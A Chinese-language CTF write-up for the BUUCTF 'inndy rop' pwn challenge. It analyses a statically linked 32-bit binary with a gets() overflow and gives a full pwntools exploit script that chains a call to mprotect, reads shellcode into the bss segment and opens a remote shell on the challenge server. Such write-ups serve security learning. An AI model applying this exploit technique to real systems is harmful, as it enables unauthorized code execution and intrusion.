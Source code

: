 ```yaml
---
author: 
  name: Zephyr
title: inndy rop
date: 2022-4-5 09:23:14
permalink: /pages/2e1547494524d1a6
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# inndy rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/inndy_rop/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

main函数静态分析失败

overflow函数如下：

```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  return gets(&v1);
}
```



## 动态分析

![inndy_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/inndy_rop_1.png)

可以看到主函数只调用了overflow

### 链接方式

```shell
file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
```

静态链接文件

## 思路分析

1. 目前信息：

   - `overflow`函数存在任意长度的溢出点
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 溢出劫持执行流到`mprotect`修改`bss`段的权限，将`shellcode`写入`bss`段处，返回并执行获得`shell`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/inndy_rop/rop'
io = remote('node4.buuoj.cn', 28710)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0xc+4
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
bss_start = elf.bss() & 0xfffff000  # 页对齐
bss_size = 0x1000
rwx = 7
pop_3times_ret = 0x0806ecd8
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, bss_start,bss_size, rwx, read_addr, bss_start, 0, bss_start, bss_size])
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.interactive()
```

